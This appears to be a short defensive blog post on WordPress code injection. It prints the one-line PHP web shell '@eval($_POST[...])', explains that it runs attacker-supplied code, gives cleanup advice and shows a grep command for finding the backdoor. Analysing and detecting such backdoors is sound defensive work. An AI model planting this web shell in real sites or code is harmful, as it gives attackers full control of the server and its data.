```yaml
---
title: Code Injection Attacks in WordPress
ctime: 2017-07-05
---
```


tl;dr: If you find this line of code in any files of your WordPress install, get worried, **get rid of it immediately**.

```php
<?php @eval($_POST['@01']);?>
```

> With this line of code, the hacker will be able to **execute any code he wants**. Therefore this code will have the power to **read, update or delete any data he wants**.

> We don't know yet what code he will choose to execute because the code will be passed as a `$_POST` argument. The `$_POST[1]` argument will contain a string of executable code. Then, `eval()` will be called with this argument to execute that code.

> When the hacker will call your page, passing it some code as a POST argument, he will be performing an attack that is called **code injection**.

> Now that you know that, you have to figure out:

> 1. What **damage** has already been done in order to undo it, if possible?
> 2. What **security breach** allowed the hacker to add the "eval" code to your code base?

> If you decide to restore a backup, make sure the "eval" code is not already in your backup. Then, solve problem #2 because the hacker will probably just re-use the same security breach to restore his hack. Even if your backup is clean, the security breach will still be there.

```bash
# egrep -lri '@eval' .
./public_html/wp-content/_themes/business-one-page/404.php
```

Links
---
- [StackOverflow: What is the meaning of @eval($_POST[1])](https://stackoverflow.com/questions/36374420/what-is-the-meaning-of-eval-post1)